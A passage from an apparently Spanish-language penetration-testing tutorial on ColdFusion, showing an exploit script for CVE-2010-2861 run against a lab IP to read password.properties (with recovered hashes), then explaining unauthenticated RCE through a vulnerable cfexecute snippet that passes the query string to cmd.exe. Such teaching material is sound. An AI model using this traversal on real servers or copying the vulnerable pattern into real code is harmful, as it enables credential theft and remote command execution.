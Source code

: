 ### ColdFusion - Exploitation

```r
python2 14641.py 10.129.204.230 8500 "../../../../../../../../ColdFusion8/lib/password.properties"

------------------------------
trying /CFIDE/wizards/common/_logintowizard.cfm
title from server in /CFIDE/wizards/common/_logintowizard.cfm:
------------------------------
#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true
------------------------------
...
```

Como podemos ver, se han recuperado los contenidos del archivo `password.properties`, demostrando que este objetivo es vulnerable a `CVE-2010-2861`.

---

## Unauthenticated RCE

La ejecución remota de código no autenticada (`RCE`) es un tipo de vulnerabilidad de seguridad que permite a un atacante `ejecutar código arbitrario` en un sistema vulnerable `sin requerir autenticación`. Este tipo de vulnerabilidad puede tener consecuencias graves, ya que permitirá a un atacante `tomar el control completo del sistema` y potencialmente robar datos sensibles o causar daños al sistema.

La diferencia entre un `RCE` y una `ejecución remota de código no autenticada` es si un atacante necesita proporcionar credenciales de autenticación válidas para explotar la vulnerabilidad. Una vulnerabilidad RCE permite a un atacante ejecutar código arbitrario en un sistema objetivo, independientemente de si tiene o no credenciales válidas. Sin embargo, en muchos casos, las vulnerabilidades RCE requieren que el atacante ya tenga acceso a alguna parte del sistema, ya sea a través de una cuenta de usuario u otros medios.

En contraste, una vulnerabilidad RCE no autenticada permite a un atacante ejecutar código arbitrario en un sistema objetivo sin ninguna credencial de autenticación válida. Esto hace que este tipo de vulnerabilidad sea particularmente peligrosa, ya que un atacante puede potencialmente tomar el control de un sistema o ejecutar comandos maliciosos sin ninguna barrera de entrada.

En el contexto de aplicaciones web ColdFusion, un ataque de RCE no autenticada ocurre cuando un atacante puede ejecutar código arbitrario en el servidor sin requerir ninguna autenticación. Esto puede suceder cuando una aplicación web permite la ejecución de código arbitrario a través de una función o característica que no requiere autenticación, como una consola de depuración o una funcionalidad de carga de archivos. Toma el siguiente código:

```r
<cfset cmd = "#cgi.query_string#">
<cfexecute name="cmd.exe" arguments="/c #cmd#" timeout="5">
```

En el código anterior, la variable `cmd` se crea concatenando la variable `cgi.query_string` con un comando para ejecutar. Este comando luego se ejecuta usando la función `cfexecute`, que ejecuta el programa `cmd.exe` de Windows con los argumentos especificados. Este código es vulnerable a un ataque de RCE no autenticada porque no valida correctamente la variable `cmd` antes de ejecutarla, ni requiere que el usuario esté autenticado. Un atacante podría simplemente pasar un comando malicioso como la variable `cgi.query_string`, y sería ejecutado por el servidor.
